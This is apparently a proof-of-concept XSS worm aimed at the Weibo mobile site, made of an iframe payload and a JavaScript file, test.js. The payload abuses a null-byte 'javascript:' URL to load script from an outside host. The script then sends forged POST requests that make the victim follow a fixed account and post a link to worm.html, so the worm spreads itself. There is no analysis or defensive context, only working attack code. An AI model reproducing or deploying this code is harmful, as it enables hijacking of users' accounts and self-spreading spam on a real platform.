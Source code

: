 ```
<iframe name="m" src="http://m.weibo.cn/xxx" onload="window.open('\u0000javascript:window.s%3Ddocument.createElement%28%27script%27%29%3Bwindow.s.src%3D%27http://site/test.js%27%3Bdocument.body.appendChild%28window.s%29%3B','m')" > 
```

test.js

```
url = 'http://m.weibo.cn/attentionDeal/addAttention?';

url2 = 'http://m.weibo.cn/mblogDeal/addAMblog?rl=1';

function createXHR(){

    return window.XMLHttpRequest?

    new XMLHttpRequest():

    new ActiveXObject("Microsoft.XMLHTTP");

}

function post(url,data,sync){

    xmlHttp = createXHR();

    xmlHttp.open("POST",url,sync);

    xmlHttp.setRequestHeader("Accept","text/html, application/xhtml+xml, */*");

    xmlHttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded; charset=UTF-8");

    xmlHttp.send(data);

}

function send(){

    data = 'uid=3605736194';

    data2 = 'content=http://site/worm.html';

    post(url,data,false);

    post(url2,data2,false);

}

function main(){

    try{

    send();

    alert("done");

    }

    catch(e){alert("error");}

}

main(); 
```
